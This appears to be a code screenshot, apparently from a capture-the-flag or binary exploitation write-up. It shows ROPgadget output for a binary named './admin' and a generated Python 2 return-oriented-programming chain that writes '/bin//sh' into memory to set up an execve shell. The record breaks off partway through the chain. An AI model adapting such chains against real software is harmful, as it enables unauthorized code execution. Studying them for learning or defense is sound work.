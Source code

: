 ```python
$ ROPgadget --binary ./admin --ropchain
# ...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

    [+] Gadget found: 0x47f321 mov qword ptr [rsi], rax ; ret
    [+] Gadget found: 0x410193 pop rsi ; ret
    [+] Gadget found: 0x415544 pop rax ; ret
    [+] Gadget found: 0x444aa0 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

    [+] Gadget found: 0x444aa0 xor rax, rax ; ret
    [+] Gadget found: 0x474770 add rax, 1 ; ret
    [+] Gadget found: 0x474771 add eax, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

    [+] Gadget found: 0x400686 pop rdi ; ret
    [+] Gadget found: 0x410193 pop rsi ; ret
    [+] Gadget found: 0x449765 pop rdx ; ret

- Step 4 -- Syscall gadget

    [+] Gadget found: 0x40123c syscall

- Step 5 -- Build the ROP chain

    #!/usr/bin/env python2
    # execve generated by ROPgadget

    from struct import pack

    # Padding goes here
    p = ''

    p += pack('<Q', 0x0000000000410193) # pop rsi ; ret
    p += pack('<Q', 0x00000000006b90e0) # @ .data
    p += pack('<Q', 0x0000000000415544) # pop rax ; ret
    p += '/bin//sh'
    p += pack('<Q', 0x000000000047f321) # mov qword ptr [rsi], rax ; ret
    p += pack('<Q', 0x0000000000410193) # pop rsi ; ret
    p += pack('<Q', 0x00000000006b90e8) # @ .data + 8
    p += pack('<Q', 0x0000000000444aa0) # xor rax, rax ; ret
    p += pack('<Q', 0x000000000047f321) # mov qword ptr [rsi], rax ; ret
    p += pack('<Q', 0x0000000000400686) # pop rdi ; ret
    p += pack('<Q', 0x00000000006b90e0) # @ .data
    p += pack('<Q', 0x0000000000410193) # pop rsi ; ret
    p += pack('<Q', 0x00000000006b90e8) # @ .data + 8
    p += pack('<Q', 0x0000000000449765) # pop rdx ; ret
    p += pack('<Q', 0x00000000006b90e8) # @ .data + 8
    p += pack('<Q', 0x0000000000444aa0) # xor rax, rax ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
    p += pack('<Q', 0x0000000000474770) # add rax, 1 ; ret
```